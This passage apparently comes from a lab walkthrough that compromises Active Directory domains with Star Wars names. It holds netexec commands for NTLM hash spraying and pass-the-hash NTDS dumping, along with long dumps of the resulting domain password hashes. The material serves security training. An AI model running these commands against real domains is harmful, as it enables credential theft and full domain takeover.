CORUSCANT empire.local\fn2133:1159:aad3b435b51404eeaad3b435b51404ee:be5be667184dc7c19fbdc1343caa4939::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2134:1160:aad3b435b51404eeaad3b435b51404ee:709a5c45879e761124fd866411a5ee1d::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2135:1161:aad3b435b51404eeaad3b435b51404ee:f14e7104de86feffbf40cff7ff2eda57::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2136:1162:aad3b435b51404eeaad3b435b51404ee:cdae3c431983928145540b13c708335b::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2137:1163:aad3b435b51404eeaad3b435b51404ee:789ce552d825ea35a516f856aca29ac0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2138:1164:aad3b435b51404eeaad3b435b51404ee:76fc481bb39c69368171752cb2c8d7f0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2139:1165:aad3b435b51404eeaad3b435b51404ee:b2640cd01e7c11f933546e25964ebbdc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2140:1166:aad3b435b51404eeaad3b435b51404ee:12971d01491157af69bb4777dbc29a0f::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2141:1167:aad3b435b51404eeaad3b435b51404ee:70b2c4dc8b49230489732720482b0380::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2142:1168:aad3b435b51404eeaad3b435b51404ee:d3c3733a84367c8bfbecfe74687fdc02::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2143:1169:aad3b435b51404eeaad3b435b51404ee:7c3b535e93d5a1363066eda98fd262b5::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2144:1170:aad3b435b51404eeaad3b435b51404ee:562377fc8b2a8eebbbd7c0fd83ee5ef3::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2145:1171:aad3b435b51404eeaad3b435b51404ee:a2bb4f99837fa356c5560ce987e359fc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2146:1172:aad3b435b51404eeaad3b435b51404ee:226c2b401e2669d4bd9771ed32a33862::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2147:1173:aad3b435b51404eeaad3b435b51404ee:06ce60d68252601c70fb7120e2588b72::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2148:1174:aad3b435b51404eeaad3b435b51404ee:fbd1a5580e8de72a42f3d9f05bf6e0ad::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2149:1175:aad3b435b51404eeaad3b435b51404ee:3eef36e7f995adb63ef7d2cc4407e086::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2187:1176:aad3b435b51404eeaad3b435b51404ee:6bf5bfe70e178247f3d433ce3d02fae4::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2188:1177:aad3b435b51404eeaad3b435b51404ee:e78a4e8014772f99040a344604a68c21::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2189:1178:aad3b435b51404eeaad3b435b51404ee:c5311e8875e0224503bcb82e2f4b78d3::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2190:1179:aad3b435b51404eeaad3b435b51404ee:6e0424946eab1e535cc11f8dea1dc2dd::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2191:1180:aad3b435b51404eeaad3b435b51404ee:a3b25f6cade3dafc0abd7c5279b5d6d1::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2192:1181:aad3b435b51404eeaad3b435b51404ee:dcb2edf7217fa30a2947fca9dddb2038::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2193:1182:aad3b435b51404eeaad3b435b51404ee:f2438f1a7ef56d39c9306413a13c4a63::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2194:1183:aad3b435b51404eeaad3b435b51404ee:f47088d6243561255a4649b9642319c2::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2195:1184:aad3b435b51404eeaad3b435b51404ee:8770117b8d240ba58ae1fe60b6b15712::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2196:1185:aad3b435b51404eeaad3b435b51404ee:dc111e2c036d85a11f233810353f58f8::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2197:1186:aad3b435b51404eeaad3b435b51404ee:a3628572253ffe82099204ac7dc7632c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2198:1187:aad3b435b51404eeaad3b435b51404ee:71676640f6be6af3bdcace0c2a24299a::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2199:1188:aad3b435b51404eeaad3b435b51404ee:fbcc654df7d3267029b87f780a20779e::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2200:1189:aad3b435b51404eeaad3b435b51404ee:731fe95e1b44c16183af07399358d5d0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2201:1190:aad3b435b51404eeaad3b435b51404ee:a764289222e9f3985a4c69d4d4593198::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2202:1191:aad3b435b51404eeaad3b435b51404ee:082782fa3e69574fb662bd0dd749dead::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2203:1192:aad3b435b51404eeaad3b435b51404ee:99fd2953ab457a747b739dabccc42200::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2204:1193:aad3b435b51404eeaad3b435b51404ee:b83aa3feb46eb2655dc3044113d177d2::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2205:1194:aad3b435b51404eeaad3b435b51404ee:9e2eabb5f7bfd04b13cdff8a1c12a235::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2206:1195:aad3b435b51404eeaad3b435b51404ee:1713c2e215ba07839b96cb0fa18b2f65::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2207:1196:aad3b435b51404eeaad3b435b51404ee:7afd8939f1b22246282e199cff33df13::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2208:1197:aad3b435b51404eeaad3b435b51404ee:6ad4cc121e50364c28cdce8d342d7d7c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2209:1198:aad3b435b51404eeaad3b435b51404ee:c0ba023b9b2f4c8f3947660d36563c65::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2210:1199:aad3b435b51404eeaad3b435b51404ee:fd409c61e43d1adda0bd3f1a4fd1d856::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2211:1200:aad3b435b51404eeaad3b435b51404ee:d8fab84b4d04b0e9d39182e9095f1f8c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2212:1201:aad3b435b51404eeaad3b435b51404ee:398476658d3243a72ea9d35da80c423a::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2213:1202:aad3b435b51404eeaad3b435b51404ee:285da8fea2e95ba0106d18585405e380::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2214:1203:aad3b435b51404eeaad3b435b51404ee:a7ebdd460787466d3b957da856c8cd30::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2215:1204:aad3b435b51404eeaad3b435b51404ee:d0c855e93637d17bb86d62550e5f1b48::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2216:1205:aad3b435b51404eeaad3b435b51404ee:ef4cf7fb6a86f6a564d69cf71142df96::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2217:1206:aad3b435b51404eeaad3b435b51404ee:21f0198f2e6453fc1fcf1142f6d824cc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2218:1207:aad3b435b51404eeaad3b435b51404ee:487dbd47eb174f9538502c34ac60c08d::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2219:1208:aad3b435b51404eeaad3b435b51404ee:406c6dbdfe76fffbae4ff28eee95ee90::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2220:1209:aad3b435b51404eeaad3b435b51404ee:21f6904692d784d78a8bcb98431efed4::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2221:1210:aad3b435b51404eeaad3b435b51404ee:a3f0162044a9ccd7ea4b5ea9a08db14c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2222:1211:aad3b435b51404eeaad3b435b51404ee:54b4162ec8943edca3e6f481057661ba::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2223:1212:aad3b435b51404eeaad3b435b51404ee:c9bff3decf3fed11656308ca902659cd::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2224:1213:aad3b435b51404eeaad3b435b51404ee:ad5f2110efee9860ac7901d1e859f462::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2225:1214:aad3b435b51404eeaad3b435b51404ee:6b38da59acab9fa793be227f9a5fde85::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2226:1215:aad3b435b51404eeaad3b435b51404ee:d2bca945c51aa09059bb50f535710743::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2227:1216:aad3b435b51404eeaad3b435b51404ee:8e8d1b41c0ec803410da85237f7136f7::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2228:1217:aad3b435b51404eeaad3b435b51404ee:bafba0bd8d85cb75bf5ede01364036fe::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2229:1218:aad3b435b51404eeaad3b435b51404ee:14d0715e891c5422c1e6d930c3d97fa9::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2230:1219:aad3b435b51404eeaad3b435b51404ee:583bed3491fe0ea4784c02735cebd791::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2231:1220:aad3b435b51404eeaad3b435b51404ee:52e65555193d8605afd0e8b9a0ab2ec8::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2232:1221:aad3b435b51404eeaad3b435b51404ee:f2392f954ac95e6cdefb54b4bf126adf::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2233:1222:aad3b435b51404eeaad3b435b51404ee:c030b2c09e689921eff8edda77670774::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2234:1223:aad3b435b51404eeaad3b435b51404ee:c3a9f13bd88c2e93f54ada86064d2f6a::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2235:1224:aad3b435b51404eeaad3b435b51404ee:8b7e69b6c41b592f7f124c1342c45633::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2236:1225:aad3b435b51404eeaad3b435b51404ee:a4abbdc65c0e1e01e17f8b77d3d63661::: SMB 10.2.10.5 445 CORUSCANT CORUSCANT$:1001:aad3b435b51404eeaad3b435b51404ee:a6d93f85b41ecd17b261ba3a6594ae8c::: SMB 10.2.10.5 445 CORUSCANT MUSTAFAR$:1104:aad3b435b51404eeaad3b435b51404ee:b1ce3ebf186d5652c070345cf8c2fd86::: SMB 10.2.10.5 445 CORUSCANT [+] Dumped 127 NTDS hashes to /home/stark/.nxc/logs/ntds/CORUSCANT_10.2.10.5_2025-11-21_220938.ntds of which 125 were added to the database
As we can see above, after being able to compromise user vader by changing it’s password, we can see that we are able to do the DCSync attack based on rights that our targeted user contains.
Unintended Way of Getting Domain Admin on empire.local
For demonstration purpose only, we will also be demonstrating an unintended way that we were able to explore during the time of this walkthrough creation.
This method should be fixed by the time you are reading this guide. Please check PR on GitHub for the fix.
NTLM Hash Spraying
Now, after compromising rebels.local domain, we still have to move on with the next move, we need to move on to compromise empire.local.
I decided to create a list containing all the hashes we were able to dump when we compromised rebels.local to do a sort of NTLM Hash Spraying, which is basically the same as password spraying, but instead of using clear-Text credentials, we will be hashes. We will also create a list of users containing all users we found inside rebels.local.
poetry run netexec smb empire.local -u rebels_users -H rebels_All_Hashes.txt --continue-on-success

Well, as soon as the NTLM Hashes spraying started, I’ve noticed that Administrator logged in successfully and also contained the (Pwn3d!) on it. Which means that, we were able to compromise the whole empire.local using rebels.local domain admin NTLM hash. Meaning that they are both using the same password.
Now to confirm this, I decided NTDS.dit from empire.local Domain Controller and it worked super fine.
poetry run netexec smb empire.local -u 'administrator' -H '52e6c515252f0487bdca397297ddec12' --ntds

DCSync Dumped Hashes
SMB 10.2.10.5 445 CORUSCANT [*] Windows Server 2022 Build 20348 x64 (name:CORUSCANT) (domain:empire.local) (signing:True) (SMBv1:None) (Null Auth:True) SMB 10.2.10.5 445 CORUSCANT [+] empire.local\administrator:52e6c515252f0487bdca397297ddec12 (Pwn3d!) SMB 10.2.10.5 445 CORUSCANT [+] Dumping the NTDS, this could take a while so go grab a redbull... SMB 10.2.10.5 445 CORUSCANT Administrator:500:aad3b435b51404eeaad3b435b51404ee:52e6c515252f0487bdca397297ddec12::: SMB 10.2.10.5 445 CORUSCANT Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: SMB 10.2.10.5 445 CORUSCANT krbtgt:502:aad3b435b51404eeaad3b435b51404ee:156a0dfced0f7d50d45ac6170d2053f7::: SMB 10.2.10.5 445 CORUSCANT localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c::: SMB 10.2.10.5 445 CORUSCANT sql_svc:1105:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804::: SMB 10.2.10.5 445 CORUSCANT empire.local\tarkin:1106:aad3b435b51404eeaad3b435b51404ee:7543109c0b261819a9a9db618971c3a6::: SMB 10.2.10.5 445 CORUSCANT empire.local\vader:1107:aad3b435b51404eeaad3b435b51404ee:ce9c8bef6644abc7b461eb435544a0bb::: SMB 10.2.10.5 445 CORUSCANT empire.local\palpatine:1108:aad3b435b51404eeaad3b435b51404ee:efd64a87892e25861fd1d59a4120e2c3::: SMB 10.2.10.5 445 CORUSCANT empire.local\krennic:1109:aad3b435b51404eeaad3b435b51404ee:4b2b4946978d3b08c1274998767bf2cd::: SMB 10.2.10.5 445 CORUSCANT empire.local\thrawn:1110:aad3b435b51404eeaad3b435b51404ee:ad5b4992d98a870a14c5bc6a3da8900e::: SMB 10.2.10.5 445 CORUSCANT empire.local\piett:1111:aad3b435b51404eeaad3b435b51404ee:0915768a76e79470a2bba69d14b0eb71::: SMB 10.2.10.5 445 CORUSCANT empire.local\kaiser:1112:aad3b435b51404eeaad3b435b51404ee:e8328021eb472f24e9ad8d41cc5bac74::: SMB 10.2.10.5 445 CORUSCANT empire.local\veers:1113:aad3b435b51404eeaad3b435b51404ee:b371acb2e22f2723a07e4a4e1428a7a5::: SMB 10.2.10.5 445 CORUSCANT empire.local\snow:1114:aad3b435b51404eeaad3b435b51404ee:98ca5d91d6fd0e84b790ca49f173a9f8::: SMB 10.2.10.5 445 CORUSCANT empire.local\jerjerrod:1115:aad3b435b51404eeaad3b435b51404ee:76d5900837564bf1d3b6d0ef4bd55ba4::: SMB 10.2.10.5 445 CORUSCANT empire.local\snoke:1116:aad3b435b51404eeaad3b435b51404ee:774a9bf5f887a60d15917ab3ae3312b4::: SMB 10.2.10.5 445 CORUSCANT empire.local\grievoussssss:1117:aad3b435b51404eeaad3b435b51404ee:98b6c47a5e7c52eb2d41c235eccf12c4::: SMB 10.2.10.5 445 CORUSCANT empire.local\windu:1118:aad3b435b51404eeaad3b435b51404ee:a1801a7775b9601c03cf2cce5ce318c4::: SMB 10.2.10.5 445 CORUSCANT empire.local\maul:1119:aad3b435b51404eeaad3b435b51404ee:efa021b68fad42cfbb5323a41a05184b::: SMB 10.2.10.5 445 CORUSCANT empire.local\dooku:1120:aad3b435b51404eeaad3b435b51404ee:fc626ece1e9d306b34ca2e8c03a200cd::: SMB 10.2.10.5 445 CORUSCANT empire.local\rex:1121:aad3b435b51404eeaad3b435b51404ee:6fa77ef7f71b28960d8b234f3eb167c9::: SMB 10.2.10.5 445 CORUSCANT empire.local\fett:1122:aad3b435b51404eeaad3b435b51404ee:1ab41858c2b3248764157b6e658bdcdf::: SMB 10.2.10.5 445 CORUSCANT empire.local\sidious:1123:aad3b435b51404eeaad3b435b51404ee:5974dfb2fc42419bb3f6ff2a0312d287::: SMB 10.2.10.5 445 CORUSCANT empire.local\hux:1124:aad3b435b51404eeaad3b435b51404ee:0967007fa609ccae92a35b0676c189e6::: SMB 10.2.10.5 445 CORUSCANT empire.local\phasma:1125:aad3b435b51404eeaad3b435b51404ee:33d6f0b5bda4792b5b569cbad988a362::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2100:1126:aad3b435b51404eeaad3b435b51404ee:d538c8573657fc9e0a2375141bd6aac2::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2101:1127:aad3b435b51404eeaad3b435b51404ee:3ed665727a3a55d5539537f00f1da309::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2102:1128:aad3b435b51404eeaad3b435b51404ee:4d949b033377cbe0110c91f1672bded4::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2103:1129:aad3b435b51404eeaad3b435b51404ee:b0cfa58abebc33f5a9346847db095881::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2104:1130:aad3b435b51404eeaad3b435b51404ee:d088eeb2380c9fa97c2b23091db203fc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2105:1131:aad3b435b51404eeaad3b435b51404ee:6bf07dcee45a94cbb37d358221749812::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2106:1132:aad3b435b51404eeaad3b435b51404ee:6b914a75f08866491efed82660b6829c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2107:1133:aad3b435b51404eeaad3b435b51404ee:5af97bfca21c0a9d2b7b35c33707e7db::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2108:1134:aad3b435b51404eeaad3b435b51404ee:099de2fd52b850b4b73d2abf5cba67c0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2109:1135:aad3b435b51404eeaad3b435b51404ee:1f5997bcef766ad2505e7c1085839327::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2110:1136:aad3b435b51404eeaad3b435b51404ee:6e4079cefabf92eceab63cef170bbbca::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2111:1137:aad3b435b51404eeaad3b435b51404ee:3f0ca8ba0cd819484f1337c0a8b11fee::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2112:1138:aad3b435b51404eeaad3b435b51404ee:f39f8bf9c3204586ce51c5eec3ae0b5c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2113:1139:aad3b435b51404eeaad3b435b51404ee:a6c31e74064b78f8c5e0fbe8ca51f030::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2114:1140:aad3b435b51404eeaad3b435b51404ee:dc946b976487fdfcdce8c3109d648588::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2115:1141:aad3b435b51404eeaad3b435b51404ee:d8b572fb1f63e345413ad0dc1c308716::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2116:1142:aad3b435b51404eeaad3b435b51404ee:e3ca8df1b6c476bb8fbf69ac112f6da9::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2117:1143:aad3b435b51404eeaad3b435b51404ee:714f7049b0f0cbc9d24269953fa2b010::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2118:1144:aad3b435b51404eeaad3b435b51404ee:cfae64200ea9ae2d68f1a17c11629934::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2119:1145:aad3b435b51404eeaad3b435b51404ee:9f799b8e9b071564caa357440a2ea5dd::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2120:1146:aad3b435b51404eeaad3b435b51404ee:5592b6e7e20533725c8bb8c4e48ba905::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2121:1147:aad3b435b51404eeaad3b435b51404ee:e868eaefb45bf9c9dadf67063347b3d0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2122:1148:aad3b435b51404eeaad3b435b51404ee:3582e3e904e3e186a8b2db637bf4fc94::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2123:1149:aad3b435b51404eeaad3b435b51404ee:83e4228bbdae95535507d340c3b72dc1::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2124:1150:aad3b435b51404eeaad3b435b51404ee:88b0462ead9197573b667ee2c68699ef::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2125:1151:aad3b435b51404eeaad3b435b51404ee:01ffabb6a7926fa334a7509f834fd9f5::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2126:1152:aad3b435b51404eeaad3b435b51404ee:2e08f7fb1459353d3d2e7453cf09d11a::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2127:1153:aad3b435b51404eeaad3b435b51404ee:adf1a6f5ac7d4e152f75be7a86813c75::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2128:1154:aad3b435b51404eeaad3b435b51404ee:d9e5f5f0bf89a4d5091392b1e17e63cc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2129:1155:aad3b435b51404eeaad3b435b51404ee:524fc621998cd3b90b7129e939563187::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2130:1156:aad3b435b51404eeaad3b435b51404ee:53ce4b9818734f7506f7ac48e42b777c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2131:1157:aad3b435b51404eeaad3b435b51404ee:9bd5175ad55bc4b2923153101c7b99a8::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2132:1158:aad3b435b51404eeaad3b435b51404ee:10c15763b2cf6b46dd0c530734c2ad75::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2133:1159:aad3b435b51404eeaad3b435b51404ee:be5be667184dc7c19fbdc1343caa4939::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2134:1160:aad3b435b51404eeaad3b435b51404ee:709a5c45879e761124fd866411a5ee1d::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2135:1161:aad3b435b51404eeaad3b435b51404ee:f14e7104de86feffbf40cff7ff2eda57::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2136:1162:aad3b435b51404eeaad3b435b51404ee:cdae3c431983928145540b13c708335b::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2137:1163:aad3b435b51404eeaad3b435b51404ee:789ce552d825ea35a516f856aca29ac0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2138:1164:aad3b435b51404eeaad3b435b51404ee:76fc481bb39c69368171752cb2c8d7f0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2139:1165:aad3b435b51404eeaad3b435b51404ee:b2640cd01e7c11f933546e25964ebbdc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2140:1166:aad3b435b51404eeaad3b435b51404ee:12971d01491157af69bb4777dbc29a0f::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2141:1167:aad3b435b51404eeaad3b435b51404ee:70b2c4dc8b49230489732720482b0380::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2142:1168:aad3b435b51404eeaad3b435b51404ee:d3c3733a84367c8bfbecfe74687fdc02::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2143:1169:aad3b435b51404eeaad3b435b51404ee:7c3b535e93d5a1363066eda98fd262b5::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2144:1170:aad3b435b51404eeaad3b435b51404ee:562377fc8b2a8eebbbd7c0fd83ee5ef3::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2145:1171:aad3b435b51404eeaad3b435b51404ee:a2bb4f99837fa356c5560ce987e359fc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2146:1172:aad3b435b51404eeaad3b435b51404ee:226c2b401e2669d4bd9771ed32a33862::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2147:1173:aad3b435b51404eeaad3b435b51404ee:06ce60d68252601c70fb7120e2588b72::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2148:1174:aad3b435b51404eeaad3b435b51404ee:fbd1a5580e8de72a42f3d9f05bf6e0ad::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2149:1175:aad3b435b51404eeaad3b435b51404ee:3eef36e7f995adb63ef7d2cc4407e086::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2187:1176:aad3b435b51404eeaad3b435b51404ee:6bf5bfe70e178247f3d433ce3d02fae4::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2188:1177:aad3b435b51404eeaad3b435b51404ee:e78a4e8014772f99040a344604a68c21::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2189:1178:aad3b435b51404eeaad3b435b51404ee:c5311e8875e0224503bcb82e2f4b78d3::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2190:1179:aad3b435b51404eeaad3b435b51404ee:6e0424946eab1e535cc11f8dea1dc2dd::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2191:1180:aad3b435b51404eeaad3b435b51404ee:a3b25f6cade3dafc0abd7c5279b5d6d1::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2192:1181:aad3b435b51404eeaad3b435b51404ee:dcb2edf7217fa30a2947fca9dddb2038::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2193:1182:aad3b435b51404eeaad3b435b51404ee:f2438f1a7ef56d39c9306413a13c4a63::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2194:1183:aad3b435b51404eeaad3b435b51404ee:f47088d6243561255a4649b9642319c2::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2195:1184:aad3b435b51404eeaad3b435b51404ee:8770117b8d240ba58ae1fe60b6b15712::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2196:1185:aad3b435b51404eeaad3b435b51404ee:dc111e2c036d85a11f233810353f58f8::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2197:1186:aad3b435b51404eeaad3b435b51404ee:a3628572253ffe82099204ac7dc7632c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2198:1187:aad3b435b51404eeaad3b435b51404ee:71676640f6be6af3bdcace0c2a24299a::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2199:1188:aad3b435b51404eeaad3b435b51404ee:fbcc654df7d3267029b87f780a20779e::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2200:1189:aad3b435b51404eeaad3b435b51404ee:731fe95e1b44c16183af07399358d5d0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2201:1190:aad3b435b51404eeaad3b435b51404ee:a764289222e9f3985a4c69d4d4593198::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2202:1191:aad3b435b51404eeaad3b435b51404ee:082782fa3e69574fb662bd0dd749dead::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2203:1192:aad3b435b51404eeaad3b435b51404ee:99fd2953ab457a747b739dabccc42200::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2204:1193:aad3b435b51404eeaad3b435b51404ee:b83aa3feb46eb2655dc3044113d177d2::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2205:1194:aad3b435b51404eeaad3b435b51404ee:9e2eabb5f7bfd04b13cdff8a1c12a235::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2206:1195:aad3b435b51404eeaad3b435b51404ee:1713c2e215ba07839b96cb0fa18b2f65::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2207:1196:aad3b435b51404eeaad3b435b51404ee:7afd8939f1b22246282e199cff33df13::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2208:1197:aad3b435b51404eeaad3b435b51404ee:6ad4cc121e50364c28cdce8d342d7d7c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2209:1198:aad3b435b51404eeaad3b435b51404ee:c0ba023b9b2f4c8f3947660d36563c65::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2210:1199:aad3b435b51404eeaad3b435b51404ee:fd409c61e43d1adda0bd3f1a4fd1d856::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2211:1200:aad3b435b51404eeaad3b435b51404ee:d8fab84b4d04b0e9d39182e9095f1f8c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2212:1201:aad3b435b51404eeaad3b435b51404ee:398476658d3243a72ea9d35da80c423a::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2213:1202:aad3b435b51404eeaad3b435b51404ee:285da8fea2e95ba0106d18585405e380::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2214:1203:aad3b435b51404eeaad3b435b51404ee:a7ebdd460787466d3b957da856c8cd30::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2215:1204:aad3b435b51404eeaad3b435b51404ee:d0c855e93637d17bb86d62550e5f1b48::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2216:1205:aad3b435b51404eeaad3b435b51404ee:ef4cf7fb6a86f6a564d69cf71142df96::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2217:1206:aad3b435b51404eeaad3b435b51404ee:21f0198f2e6453fc1fcf1142f6d824cc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2218:1207:aad3b435b51404eeaad3b435b51404ee:487dbd47eb174f9538502c34ac60c08d::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2219:1208:aad3b435b51404eeaad3b435b51404ee:406c6dbdfe76fffbae4ff28eee95ee90::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2220:1209:aad3b435b51404eeaad3b435b51404ee:21f6904692d784d78a8bcb98431efed4::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2221:1210:aad3b435b51404eeaad3b435b51404ee:a3f0162044a9ccd7ea4b5ea9a08db14c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2222:1211:aad3b435b51404eeaad3b435b51404ee:54b4162ec8943edca3e6f481057661ba::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2223:1212:aad3b435b51404eeaad3b435b51404ee:c9bff3decf3fed11656308ca902659cd::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2224:1213:aad3b435b51404eeaad3b435b51404ee:ad5f2110efee9860ac7901d1e859f462::: SMB 